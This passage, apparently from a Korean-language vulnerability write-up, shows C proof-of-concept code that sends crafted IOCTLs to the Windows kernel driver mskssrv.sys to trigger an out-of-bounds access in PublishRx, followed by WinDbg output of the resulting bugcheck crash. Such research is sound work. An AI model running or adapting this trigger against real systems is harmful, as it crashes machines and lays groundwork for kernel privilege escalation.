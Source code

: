 ```js
  *(DWORD*)(inputBuffer + 0x00) = 0xffffffff; // &1 == Non ZERO
  *(DWORD64*)(inputBuffer + 0x08) = GetCurrentProcessId(); // Current Process ID
  *(DWORD64*)(inputBuffer + 0x10) = 0x4343434344444444; // Some Marker
  *(DWORD64*)(inputBuffer + 0x18) = 0; // 0
  ntstatus = DeviceIoControl(hDevice, 0x2F0400, inputBuffer, inputsize, outputBuffer, outputsize, NULL, NULL); // FSInitializeContextRendezvous

  printf("[+] Publish RX --> Trigger OOB Access Vulnerability\n");
  memset(inputBuffer, 0, inputsize);
  *(DWORD*)(inputBuffer + 0x20) = 1; // maxCnt
  *(DWORD*)(inputBuffer + 0x24) = 1; // CNT <= maxCnt
  *(DWORD64*)(inputBuffer + 0x30) = 0; // Some Value
  ntstatus = DeviceIoControl(hDevice, 0x2F040C, inputBuffer, inputsize, outputBuffer, outputsize, NULL, NULL); // PublishRx
}
```

mskssrv.sys에서 verifier가 활성화되어 있는 경우 충돌이 발생할 수 있습니다.

<div class="content-ad"></div>

```js
1: kd> r
rax=ffffd5019f2d1668 rbx=0000000000000000 rcx=ffffbf8b77206f80
rdx=ffffbf8b76e02b00 rsi=ffffbf8b77206f80 rdi=0000000000000000
rip=fffff80ffac9c9f7 rsp=ffffd5019f2d1610 rbp=ffffbf8b77045e78
 r8=0000000000000001  r9=0000000000000001 r10=0000000000000000
r11=ffffffffffffffff r12=0000000000000000 r13=ffffbf8b76d60cd0
r14=ffffbf8b77207108 r15=ffffbf8b76e02b00
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040202
MSKSSRV!FSStreamReg::PublishRx+0x43:
fffff80f`fac9c9f7 4d3936          cmp     qword ptr [r14],r14 ds:002b:ffffbf8b`77207108=????????????????

1: kd> dq @rcx L18
ffffbf8b`77206f80  fffff80f`fac941b8 ffffbf8b`77204fe0
ffffbf8b`77206f90  ffffbf8b`77204fe0 00000000`00000002
ffffbf8b`77206fa0  ffffbf8b`77206f80 00000000`00000001
ffffbf8b`77206fb0  00000078`00000001 ffffbf8b`7681f300
ffffbf8b`77206fc0  00000000`00000000 ffffbf8b`77204fd0
ffffbf8b`77206fd0  00000000`00000001 00000000`00001b80
ffffbf8b`77206fe0  43434343`44444444 00000000`00000000
ffffbf8b`77206ff0  00000000`00000000 b3b3b3b3`b3b3b3b3
ffffbf8b`77207000  ????????`???????? ????????`????????
ffffbf8b`77207010  ????????`???????? ????????`????????
ffffbf8b`77207020  ????????`???????? ????????`????????
ffffbf8b`77207030  ????????`???????? ????????`????????

1: kd> pr
KDTARGET: Refreshing KD connection

*** Fatal System Error: 0x00000050
                       (0xFFFFBF8B77207108,0x0000000000000000,0xFFFFF80FFAC9C9F7,0x0000000000000002)

Driver at fault:
***   MSKSSRV.sys - Address FFFFF80FFAC9C9F7 base at FFFFF80FFAC90000, DateStamp 75a6d2bb
.

A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.
```